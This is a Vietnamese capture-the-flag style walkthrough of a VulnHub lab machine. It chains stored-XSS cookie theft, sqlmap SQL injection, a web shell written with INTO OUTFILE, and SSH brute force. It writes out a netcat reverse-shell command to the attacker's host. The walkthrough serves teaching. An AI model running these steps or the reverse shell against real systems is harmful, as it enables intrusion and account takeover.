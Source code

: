 ## XSS and MySQL 

### Discover
![image](https://hackmd.io/_uploads/HJI5oJI4Jx.png)
Link truy cập và tải [lab](https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/) ! 

Khởi chạy lab - vuln machine trên VMware. Vì Lab chạy trên cùng interface mạng với máy Kali (ở đây dùng làm máy tấn công), sử dụng netdiscover để tìm địa chỉ IP của Lab: 
![image](https://hackmd.io/_uploads/SJ4upJLE1x.png)

Địa chỉ IP của máy Kali: 192.168.68.136/24
![image](https://hackmd.io/_uploads/HJE9ak8N1e.png)

Sử dụng netdiscover, tùy chọn -r (range) chỉ định phạm vi giải địa chỉ tương ứng với máy Kali: 
![image](https://hackmd.io/_uploads/H1fT6yUNkx.png)

Kết quả ở trên, ta suy ra địa chỉ của máy Lab là 192.168.68.162, các địa chỉ còn lại mặc định là địa chỉ Gateway, máy thật, máy kali. 
### Enum
Tiếp theo, mình do quét các cổng đang mở của máy lab: 
![image](https://hackmd.io/_uploads/rJRgBB8Ekl.png)

Kết quả có 2 port đang mở. Việc chỉ định -p-,  -T4 để scan trên tất cả các port và tăng tốc độ scan. Chạy thêm 1 lệnh nmap để scan chi tiết trên các cổng đang mở này: 
![image](https://hackmd.io/_uploads/HJSwUSI4Jx.png)

Tùy chọn -sC để chạy script scan mặc định, -sV để scan version , kết quả port 22 chạy ssh OpenSSH 5.5p1, port 80 chạy web Apache httpd 2.2.16. 

Mở browser và truy cập 192.168.68.162, port 80 ,ta được giao diện web như sau: 
![image](https://hackmd.io/_uploads/S1DeuHUNkx.png)

Đây là 1 trang blog đơn giản, dạo qua web một vòng, truy cập các post thì chỉ có tính năng bình luận, truy cập Admin thì sẽ hiện ra form login đăng nhập: 
![image](https://hackmd.io/_uploads/HkZw_H8VJl.png)

Tạm thời bỏ qua, trước khi test thủ công, ta chạy gobuster để dò tìm các folder, file ẩn trên web: 
![image](https://hackmd.io/_uploads/ryItqB84kg.png)
![image](https://hackmd.io/_uploads/ryRi5rINyg.png)

Truy cập vào các đường dẫn trên không thu được gì thú vị và có thể khai thác. Sử dụng extension Wappalyzer để xem thông tin trang web: 
![image](https://hackmd.io/_uploads/SkGdjS8V1g.png)

Ta biết được trang web được viết bằng php, chạy trên máy chủ Apache 2.2.16, hệ điều hành,... 

Quay lại trang blog, trang có tính năng commment, ta có thể test ngay đến các lổ hổng XSS, SSTI,... Thử ngay với payload test XSS do gợi ý từ tên lab có XSS :> :
![image](https://hackmd.io/_uploads/rk4aur84yl.png)

Kết quả, dính XSS stored ở tính năng comment: 
![image](https://hackmd.io/_uploads/SJvi3HIN1e.png)

Lỗi XSS này, ta nghĩ tới ngay việc khai thác đánh cắp cookie người dùng. Để khai thác XSS này, giả sử admin hoặc người dùng truy cập trang web xem comment, khi đó XSS sẽ điều hướng đến trang C2 do ta kiểm soát. Trước tiên, ta tạo máy C2 để nhận cookie từ người dùng: 
### Exploit
Ta tạo file index.php: 
![image](https://hackmd.io/_uploads/Sy38MUL4Je.png)

Sau đó host trên local sử dụng php option -S: 
![image](https://hackmd.io/_uploads/ryAhfLLVJl.png)

Quay lại trang blog, tạo payload khai thác như sau: 
![image](https://hackmd.io/_uploads/S19Z4ILVke.png)

Submit comment chứa payload, sau đó, khi admin truy cập đọc comment, ta lấy được cookie như sau: 
![image](https://hackmd.io/_uploads/SJQ8DI84ke.png)

Update lại cookie của admin, ta truy cập được vào trang admin trên blog: 
![image](https://hackmd.io/_uploads/ryscvUUVye.png)

Mình đã thử qua các chức năng mới của admin, scan Burpsuite tới chức năng edit post, có vẻ bị dính SQL Injection: 
![image](https://hackmd.io/_uploads/SyV4_twEJx.png)

Truy cập trang edit một post bất kỳ, thấy có tham số id trên url, mình đã thử inject ký tự ', và kết quả có thông báo lỗi hàm mysql_fetch_assoc(), lỗi truy vấn SQL:
![image](https://hackmd.io/_uploads/rJvrYFvEkx.png)

Sử dụng Sqlmap để scan url với tham số id: 
![image](https://hackmd.io/_uploads/rJf0aKwVkx.png)

Thực hiện dump dữ liệu với option -dump, ngoài các table chứa dữ liệu post, ta còn thu được thông tin đăng nhập của user admin với pass được crack là :"P4ssw0rd". 
![image](https://hackmd.io/_uploads/rJhxW9vNJe.png)
![image](https://hackmd.io/_uploads/B1i7Z9wVye.png)
![image](https://hackmd.io/_uploads/SybUZcDVkx.png)

Truy cập login , login thành công với user admin với password bên trên. 
### RCE to root
Sau khi tìm hiểu khai thác sql injection, mình thấy lỗi này có thể khai thác để ghi file vào hệ thống. Mình search trên google nói về [sql-to-shell](https://pentesterlab.com/exercises/from-sqli-to-shell),  tận dụng cách trong bài viết này, mình upload shell sử dụng toán tử UNION và hàm "into outfile" có trong Mysql để ghi file.
![image](https://hackmd.io/_uploads/SyL8nRP4yl.png)

Dựa vào kết quả các thư mục tìm được từ công cụ Gobuster, sau nhiều lần thử, mình thành công write được vào thư mục /css mà không bị hạn chế về quyền:
![image](https://hackmd.io/_uploads/Hyp0P3w4Jx.png)

Truy cập /css để kiểm tra: 
![image](https://hackmd.io/_uploads/HJ1hO2DNyg.png)
Kết quả , file được up thành công, test thử vài truy vấn đơn giản như ls,whoami để kiểm tra RCE thành công:
![image](https://hackmd.io/_uploads/HkAgF2wNke.png)
![image](https://hackmd.io/_uploads/rycQt3P4kg.png)

Sau khi thử vài payload trên revshell, ta thành công với đoạn lệnh sau: `nc -c sh 192.168.68.136 4444`
![image](https://hackmd.io/_uploads/ry_xHaPVyl.png)
![image](https://hackmd.io/_uploads/B1yfSavEkx.png)

Tuy nhiên, người dùng www-data này không có quyền root. Thử đọc file /etc/passwd:
![image](https://hackmd.io/_uploads/HkSHyAPEyg.png)

Thấy ngoài root, ta còn thấy người dùng user, brute-force "user" với msf sử dụng ssh_login module:
![image](https://hackmd.io/_uploads/rkEw40PEJx.png)

Đăng nhập với user:pass vừa tìm được:
![image](https://hackmd.io/_uploads/rJ9NIRwVyl.png)
Vậy là mình get root thành công hệ thống!

